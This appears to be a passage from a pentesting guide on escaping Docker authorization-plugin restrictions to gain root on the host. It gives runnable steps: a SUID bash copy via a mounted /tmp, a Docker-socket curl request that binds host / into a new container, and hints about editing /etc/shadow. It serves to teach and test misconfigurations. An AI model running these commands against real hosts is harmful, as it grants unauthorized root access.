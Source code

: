 ### Mount Writable Folder

In this case the sysadmin disallowed users to run containers with the `--privileged` flag or give any extra capability to the container, and he only allowed to mount the `/tmp` folder:

```
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
 -p #This will give you a shell as root
```

Note that maybe you cannot mount the folder `/tmp` but you can mount a different writable folder. You can find writable directories using: `find / -writable -type d 2>/dev/null`

Note that not all the directories in a linux machine will support the suid bit! In order to check which directories support the suid bit run `mount | grep -v "nosuid"` For example usually `/dev/shm` , `/run` , `/proc` , `/sys/fs/cgroup` and `/var/lib/lxcfs` don't support the suid bit.

Note also that if you can mount `/etc` or any other folder containing configuration files, you may change them from the docker container as root in order to abuse them in the host and escalate privileges (maybe modifying `/etc/shadow`)

### Unchecked API Endpoint

The responsibility of the sysadmin configuring this plugin would be to control which actions and with which privileges each user can perform. Therefore, if the admin takes a blacklist approach with the endpoints and the attributes he might forget some of them that could allow an attacker to escalate privileges.

You can check the docker API in 

### Unchecked JSON Structure

#### Binds in root

It's possible that when the sysadmin configured the docker firewall he forgot about some important parameter of the  like "Binds".
In the following example it's possible to abuse this misconfiguration to create and run a container that mounts the root (/) folder of the host:

```
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
